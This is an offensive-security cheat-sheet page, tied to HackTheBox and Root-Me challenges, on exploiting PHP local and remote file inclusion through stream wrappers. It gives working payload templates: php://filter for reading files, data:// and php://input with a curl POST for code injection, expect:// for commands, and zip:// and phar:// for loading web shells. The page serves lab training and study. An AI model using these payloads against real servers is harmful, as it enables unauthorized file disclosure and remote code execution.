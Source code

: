 # PHP Wrappers File Inclusion

[![fileinclusion](../../../../../_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![php_filters](../../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![remote_file_inclusion](../../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)

<div class="row row-cols-lg-2"><div>

PHP Wrappers can be used to exploit a [LFI/RFI](/cybersecurity/red-team/s3.exploitation/vulns/web/inclusion.md#php-include-file-inclusion) on a server as an alternative to path traversal or similar techniques.

To **read** a file (encoded as base64):  `php://filter/read=convert.base64-encode/resource=/path/to/file`

To **inject** some code (encoded as base64): 

* `data://text/plain;base64,<base64 php code here>`
* `allow_url_include` must be enabled 🛑

To **inject** some code (as POST data), inject `php://input` and use:

```ps
$ curl -s -X POST --data '<?php /* code */ ?>' [...]
```
</div><div>

We can also use some special wrappers:

* `expect://id`: run the `id` command, not often installed
* `zip://./path/to/shell.zip%23shell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.zip extension not mandatory)</small>.
* `phar://./path/to/shell.phar%2Fshell.php&cmd=id`: if enabled, we can load a shell inside a zip <small>(.phar extension not mandatory)</small>.

Refer to [payloads](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/payloads.md) to generate phar archives or to write PHP code.
</div></div>
